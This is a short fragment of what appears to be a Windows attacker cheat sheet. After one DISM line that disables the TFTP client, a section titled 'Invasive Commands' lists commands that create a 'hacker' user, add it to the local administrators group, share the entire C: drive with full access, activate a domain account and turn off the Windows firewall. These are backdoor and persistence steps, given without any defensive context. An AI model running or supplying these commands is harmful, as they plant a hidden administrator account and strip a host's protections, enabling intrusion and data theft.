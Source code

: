 To disable a feature (again TFTP client):
```
%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /disable-feature /featurename:TFTP
```

## Invasive Commands
```
net user hacker hacker /add
net localgroup administrators /add hacker
net localgroup administrators hacker /add
net share nothing$=C:\ /grant:hacker,FULL /unlimited
net user username /active:yes /domain
netsh firewall set opmode disable
netsh firewall set opmode enable
```

## Links
https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit
